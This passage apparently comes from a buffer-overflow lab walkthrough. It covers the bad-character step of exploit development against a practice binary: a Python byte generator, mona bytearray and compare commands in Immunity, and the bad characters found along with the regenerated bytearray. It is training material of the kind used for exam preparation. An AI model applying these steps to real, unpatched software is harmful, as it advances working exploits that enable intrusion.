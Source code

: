 ![9]

You can  create a script too that generates a string of bad charts that is identical to the bytearray:

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

![10]

Update your exploit.py script and set the payload variable to the string of bad chars the script generates.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Make a note of the address to which the ESP register points and use it in the following mona command:

![11]

```
ESP: 01AEFA30
```

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

![12]

In our case we have the following bad chars

```
\x00\x07\x08\x2e\x2f\xa0\xa1
```

Now we should create a new bytearray excluding the new badchars that we have found, in this "bad chars" string, the characters \x08 \x2f \xa1 can be excluded since bad chars sometims corrupt also the next chart

```
!mona bytearray -b "\x00\x07\x2e\xa0"
```

And this is the new bytearray

![13]

```
"\x01\x02\x03\x04\x05\x06\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21"
"\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42"
"\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62"
"\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa1\xa2\xa3"
"\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3"
"\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3"
"\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```